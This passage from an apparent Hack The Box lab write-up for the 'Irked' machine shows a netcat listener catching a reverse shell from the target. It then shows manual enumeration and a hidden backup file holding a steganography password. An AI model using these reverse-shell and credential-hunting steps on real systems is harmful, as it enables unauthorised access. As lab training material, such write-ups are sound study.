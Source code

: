```shell
matt@kali:~/htb/irked$ sudo nc -nvlp 80
listening on [any] 80 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.117] 35579
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

# Privilege Escalation

I began my internal enumeration by running linPEAS, but didn't get too much information besides the fact that there was an SUID program called 'viewuser'. Further manual enumeration led to me finding the user flag (which I was not able to view) and a hidden file called '.backup' (which I was able to view).

```shell
ircd@irked:/home$ ls
djmardov ircd
ircd@irked:/home$ ls -la
total 16
drwxr-xr-x 4 root root 4096 May 14 2018 .
drwxr-xr-x 21 root root 4096 May 15 2018 ..
drwxr-xr-x 18 djmardov djmardov 4096 Nov 3 2018 djmardov
drwxr-xr-x 3 ircd root 4096 May 15 2018 ircd
ircd@irked:/home$ cd djmardov
ircd@irked:/home/djmardov$ ls
Desktop Documents Downloads Music Pictures Public Templates Videos
ircd@irked:/home/djmardov$ cd Desktop
ircd@irked:/home/djmardov/Desktop$ ls
ircd@irked:/home/djmardov/Desktop$ ls -la
total 8
drwxr-xr-x 2 djmardov djmardov 4096 May 11 2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov 3 2018 ..
ircd@irked:/home/djmardov/Desktop$ cd ..
ircd@irked:/home/djmardov$ ls Documents/
user.txt
ircd@irked:/home/djmardov$ cd Documents/
ircd@irked:/home/djmardov/Documents$ cat user.txt
cat: user.txt: Permission denied
ircd@irked:/home/djmardov/Documents$ ls -la
total 16
drwxr-xr-x 2 djmardov djmardov 4096 May 15 2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov 3 2018 ..
-rw-r--r-- 1 djmardov djmardov 52 May 16 2018 .backup
-rw------- 1 djmardov djmardov 33 May 15 2018 user.txt
ircd@irked:/home/djmardov/Documents$ cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss    
ircd@irked:/home/djmardov/Documents$
```

It took me quite a while to figure out what I was supposed to do with this information. I knew it related to steganography, but I had no experience with it and didn't know where to begin. I eventually came across a tool called steghide, which is used to derive password-protected messages from images. I remembered that there was an image on the main page of the web server, so I attempted to use the tool against it:
